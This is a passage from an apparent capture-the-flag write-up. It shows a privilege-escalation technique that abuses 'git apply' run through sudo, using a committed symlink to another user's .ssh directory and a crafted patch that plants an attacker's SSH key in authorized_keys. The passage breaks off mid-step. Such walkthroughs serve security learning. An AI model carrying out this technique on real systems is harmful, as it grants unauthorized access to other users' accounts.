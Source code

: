 
    cbrown@snoopy:/dev/shm$ mkdir ssh
    cbrown@snoopy:/dev/shm$ cd ssh/
    cbrown@snoopy:/dev/shm/ssh$ git init
    Initialized empty Git repository in /dev/shm/ssh/.git/
    cbrown@snoopy:/dev/shm/ssh$ ln -s /home/sbrown/.ssh symlink
    cbrown@snoopy:/dev/shm/ssh$ git add symlink 
    cbrown@snoopy:/dev/shm/ssh$ git commit -m "add symlink"
    [main (root-commit) 4f69273] add symlink
     1 file changed, 1 insertion(+)
     create mode 120000 symlink



I'll create a `patch` file again, this time changing `0xdf` to
`authorized_keys`, and `busted` to an SSH public key:



    diff --git a/symlink b/renamed-symlink
    similarity index 100%
    rename from symlink
    rename to renamed-symlink
    --
    diff --git /dev/null b/renamed-symlink/authorized_keys
    new file mode 100644
    index 0000000..039727e
    --- /dev/null
    +++ b/renamed-symlink/authorized_keys
    @@ -0,0 +1,1 @@
    +ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing



When I run this, it fails:



    cbrown@snoopy:/dev/shm/ssh$ sudo -u sbrown git apply -v patch
    [sudo] password for cbrown: 
    warning: unable to unlink 'symlink': Permission denied
    error: unable to write file 'renamed-symlink' mode 120000: No such file or directory



The `warning` is important to notice here. It's trying to "unlink"
`symlink` and failing. That's because sbrown doesn't have permissions
to. The directory is owned by cbrown, and all users can't write to it:



    cbrown@snoopy:/dev/shm$ ls -l
    total 0
    drwxrwxr-x 3 cbrown cbrown 100 May 10 16:27 poc
    drwxrwxr-x 3 cbrown cbrown 100 May 10 16:32 ssh



If I change the permissions on the dir such that all users can write, it
works without error:
